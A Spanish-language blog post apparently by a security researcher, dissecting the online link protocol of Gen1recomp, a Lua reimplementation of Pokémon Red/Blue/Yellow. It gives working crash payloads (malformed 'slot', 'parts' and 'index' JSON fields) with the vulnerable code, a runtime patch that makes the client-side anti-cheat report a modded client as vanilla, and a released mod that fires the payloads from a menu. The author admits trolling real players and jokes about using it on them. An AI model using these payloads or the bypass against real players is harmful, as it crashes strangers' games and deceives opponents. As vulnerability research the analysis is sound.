






> *Estaba perdiendo. Mandé un paquete. Su juego se cierra. Gané.*


***

## Empezó con un tweet

Vi [un post de TweakTown sobre Gen1recomp](https://x.com/TweakTown/status/2084526918754263328) y enseguida me quedé trabado con la misma pregunta que imagino se hizo todo el mundo: ¿cómo hicieron esto?

Gen1recomp no es un emulador de Game Boy con un frontend moderno encima. Es una reimplementación de Pokémon Red, Blue y Yellow en LÖVE2D. La lógica original del juego salió de un proyecto de assembly para Z80; el port lee la ROM, usa sus datos y assets, y reconstruye el juego en Lua. Viendo todo eso construido sobre una ROM, tuve la única reacción honesta: *¿cómo mierda hizo bryanthaboi para que esto funcione?*

Cuando era más chico pasé un tiempo haciendo ROM hacking: traducciones pequeñas, cheats de memoria con el editor de ZSNES, y esos proyectos de adolescente que parecen enormes cuando por fin funcionan. Nada demasiado serio, pero suficiente para aprender que una ROM no era simplemente un archivo de juego. Era algo que se podía manipular, modificar y, de vez en cuando, romper de formas interesantes.

Lo que nunca tuve en esa época eran combates por cable link que se sintieran nativos. Existían herramientas que tunelizaban el link por IP en emuladores, pero siempre se sentían como una función del emulador esforzándose por parecer un protocolo.

Eso fue lo que me enganchó. Acá tenías Pokémon Red corriendo como un juego moderno: una cámara 3D si querías, juego en LAN, un relay online, y brackets de torneo de verdad. Todavía dependía de la ROM, pero ya no se comportaba como un proyecto de emulador. Se sentía como si alguien hubiera desarmado el juego original y le hubiera dado una segunda vida.


Leyendo el código, me di cuenta de que el protocolo de comunicación no era más que mensajes JSON. Eso no lo vuelve inofensivo: en Lua, el parseo de JSON y el código que consume las tablas resultantes pueden destrozar un cliente igual. Así que seguí escarbando.

Cada vez que veo una implementación fresca de un protocolo, quiero inspeccionarla. Un protocolo de red es un parser expuesto a otra máquina: los bytes necesitan framing, los tamaños necesitan límites, los buffers necesitan asignación, el estado tiene que sobrevivir entre paquetes, y el receptor tiene que reconstruir datos estructurados a partir de algo que le mandó un peer no confiable. En código nativo, ese es exactamente el lugar donde uno va a buscar corrupción de memoria. En cualquier lenguaje, la deserialización y los límites de las máquinas de estado son donde se acumulan los supuestos.

Gen1recomp tenía todo eso en un solo lugar, compacto y legible: transporte LAN y online, decodificación de JSON, una máquina de estado peer-to-peer, serialización de party, mensajes de batalla lockstep, intercambios, y un relay en el medio para el juego online. Eso lo convertía en una zona muy atractiva para investigar.

Y al final me hice las preguntas del diablo. **¿Podía crashear un juego remoto? ¿Podían datos de link malformados darme control sobre la memoria? ¿Había un RCE escondido en el camino de deserialización del protocolo? ¿Podía el protocolo ser wormable y usarse para infectar a miles de jugadores?**

El proyecto estaba recibiendo atención en X, la gente empezaba a jugarlo online, y eso volvía la pregunta más interesante. ¿Un protocolo nuevo, usuarios reales, un relay público y una implementación fresca en Lua construida sobre una ROM vieja? Sonaba como un buen lugar para empezar a escarbar.

***

## Contribuí antes de romperlo

El proyecto es increíble, y eso importa.

Antes de escribir `Lincoler`, hice dos mods para Gen1recomp:

- [**Cheat Engine**](https://github.com/hdbreaker/gen1recomp-mod-cheat_engine), una caja de herramientas en F7 / START con las tonterías habituales de Pokémon: curar, XP, spawnear, DVs perfectos, sin encuentros, god mode, OHKO, PP y objetos infinitos, cheats de movimiento, y más.

- [**Intro Bypass**](https://github.com/hdbreaker/gen1recomp-mod-intro_bypass), que saltea la introducción de Oak y te deja en el overworld después de elegir nombre, starter, shiny flag y nivel.

El proyecto original y su código fuente están en [bryanthaboi/gen1recomp](https://github.com/bryanthaboi/gen1recomp).

Hacer esos mods fue útil por una razón menos obvia: significó aprender el sistema de extensiones desde adentro. Hooks, event buses, pantallas de estado, permisos de mods, save state, y el handshake de link ya no eran partes abstractas del proyecto. Eran lugares donde ya había trabajado.

Así fue como encontré el toggle de anti-cheat online. Y también los huecos a su alrededor.

---

## Cómo funciona el juego online de Gen1recomp

Para entender si mi objetivo era siquiera viable, primero tenía que entender qué está tratando de simular el protocolo de red.

El cable link original del Game Boy era un cablecito físico entre dos máquinas. Gen1recomp tiene que recrear esa relación a través de una LAN o a través de Internet, mientras sigue haciendo que ambos juegos crean que están progresando por la misma batalla al mismo tiempo.

Para una partida en LAN, un jugador se convierte en el **HOST**, abre un socket ENet en el puerto UDP 7777, y el otro jugador se conecta directamente a esa dirección IP como **GUEST**.



El juego online toma otro camino: ambos clientes hacen una conexión TCP saliente al relay público en `147.182.215.255:7778`, hosteado en DigitalOcean y operado por [@bryanthaboi](https://x.com/bryanthaboi). El **HOST** recibe un código de sala corto;


El **GUEST** lo ingresa; el relay los empareja y reenvía el tráfico entre las dos conexiones. Es un relay TCP crudo, no un proxy HTTP.



El relay es puro transporte. No corre una batalla, no decide quién gana, ni entiende datos de Pokémon. Solo mueve mensajes. `Net.lua` es el módulo de networking del juego — la parte del cliente que gestiona el socket, delimita el tráfico, y convierte bytes crudos en tablas de Lua. Una vez que `Net.lua` decodificó uno de esos mensajes, al resto del cliente no le importa si vino directo de un peer en LAN o a través del relay online: es simplemente una tabla de Lua recibida del otro lado.

En LAN, el juego usa `lua-enet`, una librería que corre sobre UDP pero garantiza entrega y orden: cada mensaje llega, y llega en el orden en que fue enviado. El juego online delimita los mismos mensajes como JSON separado por saltos de línea sobre TCP. En cualquiera de los dos casos, el protocolo por encima del transporte es JSON.

En este flujo es solamente un punto de reenvío: los mensajes malformados de este post apuntan al cliente receptor, no al relay en sí.

Todo el trabajo del relay es presentar a dos desconocidos y después quitarse del medio. Ocurre en dos fases.

**Fase uno — el handshake.** El **HOST** le dice al relay que quiere abrir una sala, y el relay responde con un código corto. El **GUEST** ingresa ese código, el relay lo verifica, y le avisa a ambos lados que están emparejados:



**Fase dos — reenvío.** Desde ese momento, el relay deja de pensar. Cada línea JSON completa que recibe de un lado se copia al otro tal cual. Nunca mira adentro:



Ese es todo el relay: un buzón entre dos sockets. Sin lógica de batalla, sin validación, sin estado. Y por eso exactamente funciona el ataque de este post: el relay va a reenviar sin objeciones un mensaje que ningún cliente legítimo mandaría jamás.

Antes de que empiece una batalla, ambos clientes intercambian los datos de su party. El **HOST** también provee la seed compartida de RNG usada para la simulación lockstep — el único número que ambas máquinas usan para tirar resultados "aleatorios" idénticos. Un mensaje de party normal se ve así:

```json
{
  "type": "party",
  "mons": [
    {
      "species": "RATTATA",
      "level": 5,
      "hp": 11,
      "moves": [
        {
          "id": "TACKLE",
          "pp": 35
        }
      ]
    }
  ],
  "seed": 42
}
```

Las batallas corren en lockstep. Ambos clientes simulan toda la pelea localmente a partir de los mismos datos de party y la seed de RNG compartida. Cada evento aleatorio — si un ataque pega, si es crítico, cuánto daño hace — sale de una fórmula determinista sembrada con ese único número, así que ambas máquinas tiran resultados idénticos y las dos simulaciones se mantienen en sincro. En cada turno intercambian una acción, simulan el mismo resultado, y comparan un hash de estado. El relay nunca necesita entender si Tackle pegó, si un Pokémon se debilitó, o si alguno de los dos resultados era válido. Ambos clientes hacen ese trabajo de forma independiente.

La parte importante es menos elegante: cuando un jugador desaparece, el lado que sobrevive ve `net.closed` y la partida termina en empate. No se declara ganador — la batalla se cae y el juego vuelve al overworld.

Entender esto abre la puerta a un hate cheat. Si un jugador está perdiendo una batalla, puede cerrarle el juego al otro en lugar de aceptar la derrota. Un crash no es un empate: el proceso muere, el socket muere con él, y el otro lado se queda esperando a un peer que nunca va a responder.

Así que me puse a ver cómo un mensaje recibido se convierte en una acción. Después de que `Net.lua` decodifica una línea, `Session:update()` lee `msg.type` y le entrega el mensaje al handler correcto: `LinkState` para el lobby, `LinkBattle` para la pelea, `TradeSession` para los intercambios. Lo único que se valida en algún lado es que `msg.type` sea un string. Todo lo demás — `slot`, `seed`, `mons`, `index`, `parts`, `pick` — se acepta sin más y se pasa directo a la simulación.

Ahí es donde viven las variables controlables: campos del wire que terminan en operaciones aritméticas, indexación o acceso a tablas sin ninguna verificación de tipo en el medio. Si alguno de ellos pudiera dirigir el estado interno del juego remoto, sería justamente ahí.

Antes de poder convertir cualquiera de eso en un crash, necesitaba saber qué pasa cuando la simulación se encuentra con un valor malo. Lua tiene una red de seguridad incorporada exactamente para esto: `pcall` (protected call), el equivalente de try/catch en otros lenguajes. Si una llamada se envuelve en `pcall`, un error interno se convierte en un valor de retorno en lugar de un crash. Gen1recomp usa `pcall` por todos lados — alrededor de llamadas a ENet, I/O de archivos, incluso la integración con Discord.

El game loop no es uno de esos lugares:

```lua
-- src/core/Game.lua
if self.linkNet and not self.linkNet.closed then
  self.linkNet:update()
end
self.stack:update(dt)
```

`linkNet:update()` es donde un mensaje recibido se decodifica y se despacha. No hay `pcall` alrededor, y tampoco alrededor de `stack:update(dt)`. Así que cuando un mensaje hace que la simulación tire un error — digamos, `math.floor({})` — el error no se convierte en una desconexión elegante. No se convierte en un `net.closed` ni en un empate. Se propaga hacia arriba a través del game loop y fuera del proceso. Lo último que ese jugador ve es el proceso cerrándose.

El proceso muere.

---

## El bug no es ingenioso

Lua no ofrece los juguetes clásicos de la familia C. No hay `memcpy`, no hay stack smash, no hay aritmética de punteros escondida detrás de un casteo malo.

Lo que sí ofrece es tipado dinámico. Una variable no declara lo que contiene — el valor lleva su propio tipo. Al parser de JSON no le importa qué se supone que es un campo: `5` se convierte en un número, `"five"` se convierte en un string, y `{}` se convierte en una tabla. Nada verifica que el campo coincida con lo que el juego espera. El juego solo se entera cuando intenta usar el valor. Si el código asume que un campo entrante es numérico — digamos, se lo pasa a `math.floor` o lo suma con algo — pero el emisor puso una tabla en su lugar, la falla ocurre en esa primera operación numérica.

El patrón recurrente en Gen1recomp se ve así:

```lua
local level = math.max(2, math.min(100, math.floor(packed.level or 5)))
```

El autor claramente esperaba que `packed.level` fuera un número o estuviera ausente. Pero `or` solo sustituye el default para `nil` y `false`. Un objeto JSON se convierte en una tabla de Lua, que es truthy.

Así que esto es JSON legal:

```json
{"level":{}}
```

Y esto es lo que el receptor hace con eso:

```lua
math.floor({})
```

Lua tira `bad argument #1 to 'floor' (number expected, got table)`. El game loop no lo atrapa. Fin del proceso.

El patrón común es más fácil de ver como un flujo de taint:



---

## Los payloads que conservé

Encontré más campos malformados mientras leía el código. No todos son igual de útiles, y no convertí cada crash teórico en una opción del menú — el mod trae ocho payloads, repartidos entre los estados donde tienen sentido. Vale la pena mostrar tres, porque cada uno mata al objetivo en un momento distinto de la partida.

### Action recomposition attack

Cuando un jugador elige un movimiento, el juego manda algo así:

```json
{
  "type": "action",
  "kind": "move",
  "slot": 2
}
```

Del otro lado, el mensaje llega como una tabla de Lua. `Net.lua` decodifica la línea JSON, la deja en la bandeja de entrada, y el battle loop la agarra:

```lua
-- src/link/LinkBattle.lua
for _, msg in ipairs(net:poll()) do
  if msg.type == "action" then
    s.remoteAction = msg
    tryResolve(s)
```

`tryResolve` se lo pasa a `decodeWireAction`, que lee `msg.slot` — el índice del movimiento en la lista de movimientos del enemigo — y lo resuelve al movimiento real:

```lua
local slot = math.max(1, math.min(#battler.curMoves, math.floor(msg.slot or 1)))
return battler.curMoves[slot]
```

Ese es todo el significado del mensaje: *el enemigo ejecutó el comando para el movimiento del slot 2 de su Pokémon.* El chequeo de límites mantiene el índice dentro de la lista de movimientos, y `msg.slot or 1` provee un default cuando el campo falta.

Ahora la type confusion. El formato del wire es JSON, y Lua tiene tipado dinámico: al parser no le importa que `slot` se supone que es un número. Simplemente decodifica lo que haya — `2` se convierte en un número, `"two"` se convierte en un string, `{}` se convierte en una tabla. Lo único que se valida en algún lado es que `msg.type` sea un string. Así que `slot` puede ser cualquier cosa que JSON pueda expresar, y el juego no se va a enterar hasta que intente usarlo.

**Ejemplo: manipulación de entrada sin sanitizar**

**Mensaje del atacante:**

```json
{
  "type": "action",
  "kind": "move",
  "slot": {}
}
```

**Parámetro manipulado:** `msg.slot`

El parámetro manipulado se usa en el juego remoto.

**Código vulnerable:**

```lua
-- src/link/LinkBattle.lua:576
s.remoteAction = msg
-- src/link/LinkBattle.lua:72
local slot = math.max(1, math.min(#battler.curMoves, math.floor(msg.slot or 1)))
```

**Resultado esperado:**

El crash ocurre cuando el juego del jugador remoto intenta llamar a `math.floor` con un valor no numérico:

```
math.floor({}) -> Math operation over a table CRASH
```

### Hash desync attack

Cuando un turno se resuelve, ambos clientes mandan un hash del resultado simulado para probar que están de acuerdo:

```json
{
  "type": "hash",
  "turn": 1,
  "value": "25:87:0|94:120:0",
  "parts": {
    "actives": "...",
    "volatile": "...",
    "bench": "..."
  }
}
```

Del otro lado, el battle loop lo almacena y corre el chequeo de determinismo:

```lua
-- src/link/LinkBattle.lua
elseif msg.type == "hash" then
  s.remoteHashes[msg.turn or 0] = msg.value
  s.remoteParts[msg.turn or 0] = msg.parts
  checkHashes(s)
```

`checkHashes` recorre los tres componentes — `actives`, `volatile`, `bench` — y compara cada uno contra la simulación local:

```lua
for _, component in ipairs(PARTS) do
  if mine[component] ~= theirs[component] then
```

En términos simples, el peer está diciendo: *ambos simulamos el mismo turno — acá está la prueba de que los dos clientes siguen coincidiendo.* `value` es el resumen; `parts` es el desglose.

Ahora la type confusion. Se supone que `parts` es una tabla con esas tres keys. Pero nada valida eso — el único chequeo en cualquier lado es que `msg.type` sea un string. Así que `parts` puede ser cualquier cosa que JSON pueda expresar, y el juego no se va a enterar hasta que intente indexarlo.

**Ejemplo: manipulación de entrada sin sanitizar**

**Mensaje del atacante:**

```json
{
  "type": "hash",
  "turn": 1,
  "value": "x",
  "parts": 123
}
```

**Parámetro manipulado:** `msg.parts`

El parámetro manipulado se usa en el juego remoto.

**Código vulnerable:**

```lua
-- src/link/LinkBattle.lua:580
s.remoteParts[msg.turn or 0] = msg.parts
-- src/link/LinkBattle.lua:370
if mine[component] ~= theirs[component] then
```

**Resultado esperado:**

El crash ocurre cuando el juego del jugador remoto intenta indexar un número como si fuera una tabla:

```
123["actives"] -> Indexing a number CRASH
```

Así que con este payload la batalla se resuelve normalmente, el turno transcurre, y recién entonces el objetivo muere verificando si el turno fue determinista. La demora es justamente el punto: el otro cliente cree que todo está bien.

### Zero-index trade attack

Cuando un jugador elige un Pokémon para intercambiar, manda algo así:

```json
{
  "type": "pick",
  "index": 1
}
```

Del otro lado, la sesión de intercambio almacena la elección y avanza la negociación:

```lua
-- src/link/Protocol.lua
elseif msg.type == "pick" then
  self.theirPick = msg.index
  self:advance()
```

Cuando ambos lados confirmaron, el intercambio se aplica — y la elección se convierte en un índice dentro de la party que la víctima mandó:

```lua
local received = self.theirParty[self.theirPick]
received.traded = true
```

Leído literalmente, el mensaje significa: *quiero el Pokémon en el slot N de la party que mandaste.* El juego asume que ese índice apunta a un miembro real del equipo.

Ahora la type confusion. Los arrays de Lua empiezan en uno, pero el cero también es truthy — y nada valida que `index` sea un número positivo. El único chequeo en cualquier lado es que `msg.type` sea un string. Así que `index` puede ser cualquier cosa que JSON pueda expresar, y el juego no se va a enterar hasta que intente usarlo.

**Ejemplo: manipulación de entrada sin sanitizar**

**Mensaje del atacante:**

```json
{
  "type": "pick",
  "index": 0
}
```

**Parámetro manipulado:** `msg.index`

El parámetro manipulado se usa en el juego remoto.

**Código vulnerable:**

```lua
-- src/link/Protocol.lua:323
self.theirPick = msg.index
-- src/link/Protocol.lua:375
local received = self.theirParty[self.theirPick]
-- src/link/Protocol.lua:377
received.traded = true
```

**Resultado esperado:**

El crash ocurre cuando el juego del jugador remoto intenta leer un campo de un Pokémon que no existe:

```
theirParty[0] -> nil.traded CRASH
```

Así que con este payload el intercambio crashea, pero no roba un Pokémon. El save se escribe después de aplicar el intercambio, y el crash ocurre antes de que el estado de la víctima llegue a confirmarse.

**A esta altura, toda esta investigación no es más que una forma extremadamente compleja de mandar al carajo al que te está destrozando los Pokémon desde el otro lado del teclado.**

## El bypass del anti-cheat online

Esta parte fue corta y sencilla, pero igual bastante astuta.

Gen1recomp normalmente bloquea el juego online cuando un mod cargado cambia estado relevante al link. Toda la barrera vive en `src/link/Handshake.lua`, y se reduce a una sola pregunta: ¿este cliente puede jugar online?

```lua
-- src/link/Handshake.lua:124
function Handshake.onlineBlockers(game)
  local blockers = {}
  for _, entry in ipairs(Handshake.mods(game)) do
    local allowed = entry.language and not entry.affectsLink
      and translationOnly(mod, entry.id)
    if not allowed then blockers[#blockers + 1] = entry end
  end
  return blockers
end

-- src/link/Handshake.lua:145
function Handshake.onlineAllowed(game)
  return #Handshake.onlineBlockers(game) == 0
end
```

Estas tres funciones forman la barrera. `linkModified` (línea 53) es el chequeo más amplio: *¿algún mod escribió en un registro de la superficie de link?* `onlineBlockers` (línea 124) es la lista concreta: cada mod habilitado que no sea una traducción verificada (una traducción no cuenta, porque el texto no toca la simulación). `onlineAllowed` (línea 145) es la única pregunta que el cliente se hace antes de ir online: *¿esa lista está vacía?* Si no lo está, el cliente se niega a conectarse. Todo esto es local — el relay nunca ve la decisión.

Mi [Cheat Engine Mod](https://github.com/hdbreaker/gen1recomp-mod-cheat_engine) agrega un toggle de **CHEATS ONLINE**. Con el toggle apagado, la barrera normal sigue en su lugar. Con él encendido, el mod guarda los originales y reemplaza las funciones en runtime:

```lua
-- cheat_engine/main.lua:121
Handshake.onlineAllowed = function() return true end
Handshake.onlineBlockers = function() return {} end
Handshake.mods = function() return {} end
Handshake.linkModified = function() return false end
```

Eso es suficiente para hacer que el cliente local se reporte como vanilla mientras sigue corriendo mods. Así es como se propaga la mentira: cuando el cliente se empareja, manda un mensaje `hello` al peer, y ese hello se construye llamando a `Handshake.mods`, `Handshake.linkModified`, y la fingerprint. Una vez que esas funciones mienten, el hello también miente — el peer lee un cliente vanilla. Y como el mod guardó los originales primero, apagar el toggle restaura la barrera normal.

No hay validación de mods del lado del servidor. El relay no inspecciona el handshake. Solo mueve mensajes. La decisión de anti-cheat ocurre enteramente en el cliente que quiere hacer trampa.

```
F7 → CHEATS ONLINE: [OFF]  ← barrera normal
F7 → CHEATS ONLINE: [ON]   ← cliente modeado se presenta como vanilla
```


---

## Lincoler: los bugs convertidos en un menú del juego

Con el bypass de anti-cheat fuera del camino, el siguiente paso era convertir los payloads en un mod: [**Lincoler**](https://rickandmorty.fandom.com/wiki/Abrodolph_Lincoler): parte *link killer*, parte referencia a Rick and Morty. El nombre es lo bastante tonto como para funcionar.


Es deliberadamente pequeño. Lincoler no es un fuzzer genérico: es un menú que conoce el estado de la sesión online actual y expone solo los payloads que tienen sentido en ese estado.



`action slot={}` y `action switch idx={}` se disparan **una sola vez, directo**.
`hash parts=123` y `TRADE CRASH pick=0` se **repiten cada tres frames**.

El menú de batalla no es el único. La pantalla de intercambio tiene la misma debilidad, así que el menú también lleva un payload de intercambio.

El **HOST** recibe las opciones pre-batalla y pre-intercambio porque controla la transición de modo y manda el paquete de party inicial. Esos payloads son la misma familia de bugs, un mensaje antes, pero no voy a entrar en ellos acá: el foco de este post es la batalla y el intercambio. Para ver los payloads del HOST, el código es abierto: [Lincoler en GitHub](https://github.com/hdbreaker/gen1recomp-mod-lincoler).

El laboratorio fueron dos procesos LÖVE locales en macOS con valores distintos de `POKEPORT_IDENTITY`, para que sus directorios de save no colisionaran:

```
POKEPORT_IDENTITY=pokemon-attacker love gen1recomp-src/
POKEPORT_IDENTITY=pokemon-victim   love gen1recomp-vanilla/
```

En el video de abajo se puede ver a Lincoler explotando el Action recomposition attack en medio de una batalla.

<video src="/images/pokepwn.mov" controls width="100%"></video>

---

## Sí busqué RCE

Un DoS que mata clientes es gracioso. Una ejecución remota de código habría sido una categoría de hallazgo completamente distinta.

Rastreé las superficies obvias de ejecución de Lua/LuaJIT: `load`, `loadstring`, `require` dinámico, `os.execute`, `io.popen`, FFI, trucos de metatables, round-trips de archivos de save, y callbacks de mods que reciben datos de Pokémon provistos remotamente.

El resultado fue mejor de lo que esperaba.

El sistema de save es el ejemplo más fuerte. Los archivos de save parecen código fuente Lua — se codifican como `return {...}` — lo cual inicialmente parecía prometedor. Pero no se cargan con `load()`. `SaveSerializer` tiene su propio parser de gramática restringida: literales escalares, strings escapados, tablas planas, un límite de profundidad. Un nickname que parece código sigue siendo solo un string cuando el save se vuelve a cargar.

La FFI de LuaJIT está presente, pero vive en otro lado: helpers de filesystem, Discord IPC, llamadas a shell y SDL específico de plataforma. El protocolo de link pasa por ENet o luasocket. No pude hacer que datos de link controlados por el atacante llegaran ni cerca de una llamada a `ffi.C`.

Quedan hallazgos secundarios de denegación de servicio: un buffer de recepción TCP sin límite, un leak lento en el almacenamiento de hashes remotos, y ningún límite explícito de anidamiento de JSON. Ninguno era un payload limpio de un solo mensaje, así que no los convertí en botones del menú.

Vine a cazar ejecución remota de código y un payload wormable. Me fui con un juguete divertido.

Fue un recorrido entretenido por el protocolo del proyecto. También me divertí un rato con el bug, troleando un poco online antes de escribir este post.

**@Rubiu5**, tranquilo, estás a salvo. 👀

---

> El ataque apunta a un cliente de juego vulnerable, no al relay de Gen1recomp ni a ninguna otra infraestructura. No lo uses contra jugadores reales. O úsalo, no sé — soy un post de blog, no tu papá.

---

**Archivos fuente relevantes:**

| Archivo | Rol |
|---|---|
| `src/link/Net.lua` | Transporte ENet/TCP |
| `src/link/Session.lua` | wrapper de transporte y validación de envelope |
| `src/link/Protocol.lua` | Serialización de Pokémon e intercambios |
| `src/link/LinkState.lua` | UI de link y máquina de estado |
| `src/link/LinkBattle.lua` | Implementación de batalla lockstep |
| `src/link/Handshake.lua` | Compatibilidad y barrera de mods online |
| `src/core/Game.lua` | Game loop |
| `src/core/SaveSerializer.lua` | Parser de save restringido |

**Repos:**

- Cheat Engine: https://github.com/hdbreaker/gen1recomp-mod-cheat_engine
- Intro Bypass: https://github.com/hdbreaker/gen1recomp-mod-intro_bypass
- Lincoler: https://github.com/hdbreaker/gen1recomp-mod-lincoler
- Gen1Recomp Project: https://github.com/bryanthaboi/gen1recomp
- Rama upstream usada para la contribución preparada: `bryanthaboi:dev`

> **Nota sobre IA.** Usé OpenCode como entorno de agente, GLM 5.2 para razonamiento, y DeepSeek V4 Flash para implementación y testing.